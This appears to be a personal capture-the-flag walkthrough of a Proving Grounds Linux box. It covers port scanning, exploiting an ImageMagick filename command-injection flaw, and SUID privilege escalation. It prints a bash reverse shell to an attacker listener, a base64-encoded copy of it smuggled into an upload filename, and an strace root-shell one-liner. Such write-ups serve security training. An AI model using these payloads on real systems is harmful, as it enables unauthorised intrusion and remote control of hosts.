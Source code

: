 # NMAP

```
sudo nmap -sC -sV -p- 192.168.236.178 -oN nmap-image
```


# 80 

![[PG/Linux/attachments/Pasted image 20250711142152.png]]

- immediately think this may be a magic bytes thing

![[PG/Linux/attachments/Pasted image 20250711142426.png]]
## Ferox 

```
feroxbuster -u http://192.168.236.178/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o ferox.out
```
![[PG/Linux/attachments/Pasted image 20250711144116.png]]

## Upload a web shell

![[PG/Linux/attachments/Pasted image 20250711142454.png]]

Look like that uploaded 

![[PG/Linux/attachments/Pasted image 20250711142518.png]]
- version 6.9-6-4?

Where is it 

![[PG/Linux/attachments/Pasted image 20250711142610.png]]


![[PG/Linux/attachments/Pasted image 20250711142621.png]]

Googling "ImageMagick Identifier exploit"

[Found one](https://github.com/ImageMagick/ImageMagick/issues/6339) for version 6.9-6-4

So if the filename has back ticks- the application won't sanitize?

I think I need to do this with Burp.

![[PG/Linux/attachments/Pasted image 20250711143539.png]]
Hmmm apparently the pipe was supposed to work. not backtick.

Intercept upload with Burp

![[PG/Linux/attachments/Pasted image 20250711143558.png]]

Send to repeater

Add a backtick in the filename 

![[PG/Linux/attachments/Pasted image 20250711143646.png]]

- It uploaded but I couldn't navigate to it

![[PG/Linux/attachments/Pasted image 20250711144032.png]]

Added backticks around the filename and do actually get a response 

![[PG/Linux/attachments/Pasted image 20250711143857.png]]

Change extension to PNG - nope

I misinterpreted the exploit. The pipe character is the one that will allow code execution.

Cheating with this writeup..This as the image name should work

```
cp cat.jpg ’|smile”`echo <base64_bash_reverse_shell> | base64 -d | bash`”.jpg’
```

**Bash Reverse Shell**
```
bash -i >& /dev/tcp/192.168.45.152/9001 0>&1
```

**Base64 Encode**
```
echo -n "bash -i >& /dev/tcp/192.168.45.152/9001 0>&1" | base64
```

Remove weird chars (=,+)

Resulting payload

```
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xNTIvOTAwMSAgICAwPiYx
```

![[PG/Linux/attachments/Pasted image 20250711145855.png]]

Trying this..

```
|cat”`echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xNTIvOTAwMSAgICAwPiYx| base64 -d | bash`”.png’
```

Not sure if I need a cat.jpg or something

![[PG/Linux/attachments/Pasted image 20250711145428.png]]

I'll reupload and intercept req

![[PG/Linux/attachments/Pasted image 20250711145538.png]]

This didn't work

![[PG/Linux/attachments/Pasted image 20250711145655.png]]

Okay, I'm going to use this https://github.com/overgrowncarrot1/ImageTragick_CVE-2023-34152?source=post_page-----47a18735fa20---------------------------------------

This video helps. Maybe I can't modify the file name in Burp..

![[PG/Linux/attachments/Pasted image 20250711150441.png]]

![[PG/Linux/attachments/Pasted image 20250711150452.png]]

![[PG/Linux/attachments/Pasted image 20250711150826.png]]

![[PG/Linux/attachments/Pasted image 20250711150846.png]]


Wait.

I think renaming it through Burp was fine after all???

![[PG/Linux/attachments/Pasted image 20250711150942.png]]
Did I reverse shell myself? lol

![[PG/Linux/attachments/Pasted image 20250711151026.png]]

Not working.

I'm using this exploit https://github.com/overgrowncarrot1/ImageTragick_CVE-2023-34152/blob/main/CVE-2023-34152.py

This will create the image file.





# Privesc is an SUID

![[PG/Linux/attachments/Pasted image 20250711151232.png]]

![[PG/Linux/attachments/Pasted image 20250711151253.png]]

This file generation exploit worked

![[PG/Linux/attachments/Pasted image 20250711152400.png]]

![[PG/Linux/attachments/Pasted image 20250711152508.png]]

# Privesc

```
/usr/bin/strace -o /dev/null /bin/sh -p
```

![[PG/Linux/attachments/Pasted image 20250711152701.png]]

Resources:

https://medium.com/@robertip/oscp-practice-image-proving-ground-practice-47a18735fa20

